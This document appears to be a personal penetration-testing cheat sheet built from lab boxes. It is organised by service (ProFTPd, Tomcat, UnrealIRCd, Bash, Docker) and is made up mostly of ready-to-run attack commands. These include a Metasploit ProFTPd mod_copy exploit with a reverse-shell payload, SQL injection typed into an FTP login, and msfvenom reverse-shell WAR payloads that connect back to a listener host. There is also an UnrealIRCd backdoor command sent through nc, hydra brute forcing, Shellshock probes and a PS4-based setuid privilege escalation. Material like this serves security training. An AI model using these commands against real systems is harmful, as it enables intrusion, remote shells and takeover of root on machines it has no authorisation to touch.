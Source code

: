 # ProFTPd

## ProFTPd 1.3.5, mod_copy
	Any Linux server running Proftp version < 1.3.5 are vulnerable.
	https://raw.githubusercontent.com/t0kx/exploit-CVE-2015-3306/master/exploit.py
	https://www.exploit-db.com/exploits/36742
	https://www.exploit-db.com/exploits/36803
	use exploit/unix/ftp/proftpd_modcopy_exec
	set RHOST 192.168.6.154
	set SITEPATH /var/www/html/test
	set TARGETURI /test/
	set PAYLOAD cmd/unix/reverse_perl
	set LHOST 192.168.6.138
	run

	id


## ProFTPD 1.2.8 - 1.2.9 mod_sql
	
Boxes : Relativity

	└─$ ftp 172.16.16.128
	Connected to 172.16.16.128.
	220 Welcome to Relativity FTP (mod_sql)
	Name (172.16.16.128:kali): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
	331 Password required for %').
	Password:1  <== WHY ?
	230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> ls 
	200 PORT command successful


# vsftpd

- The default location for pub ftp on CentOS : __/var/ftp/pub/__

# Tomcat

Boxes : sleepy

- Default : 
	1. _/etc/tomcat/tomcat-users.xml_
	2. _/etc/tomcat/server.xml_
- Shell
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.1 LPORT=1234 -f war > shell.war
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f war -o evil.war



# UnrealIRCd 3.2.8.1

Boxes : Relativity

	echo "AB;<command>" |nc <IRCd address> <port>

# HTTP auth basic

	# Brute force
	$ hydra -l admin  -p darkweb2017-top100.txt  a.b.c.d http-get


# Bash [v1.14 - v4.3 ]


## Shellshock bash [v1.14 - v4.3 ]

Boxes : sleepy

	env var='() { ignore this;}; echo VULN' bash -c /bin/true  
	env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
	env X=' () { }; echo hello' bash -c 'date'
	shellshocker='() { echo You are vulnerable; }' bash -c shellshocker

	curl -A " () { :; }; echo VULN " {URL}
	telnet <serveur_internet_sous_notre_controle> 8888
	# export function
	bash-4.2$ function /usr/bin/sl () { /bin/bash; }
	bash-4.2$ export -f /usr/bin/sl

## SHELLOPTS and PS4

Boxes : K2

    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(chown root:root /tmp/egg && chmod +s /tmp/egg)' /bin/sh -c '/usr/local/bin/whoisme'



# nginx

- Default path
	
	/nginx/usr/share/nginx/html/

# Wordpress

- Theme twentynineteen : /var/www/html/wordpress/wp-content/themes/twentynineteen/


# joomla


- Templates --> Template default for all pages --> New file --> Upload



# SSH

	ssh -t user@host $SHELL --norc --noprofile


# Docker

## enumeration

- deepce github

## Configuation

- docker-compose.yml
- gitlab-secrets.json
- gitlab.rb

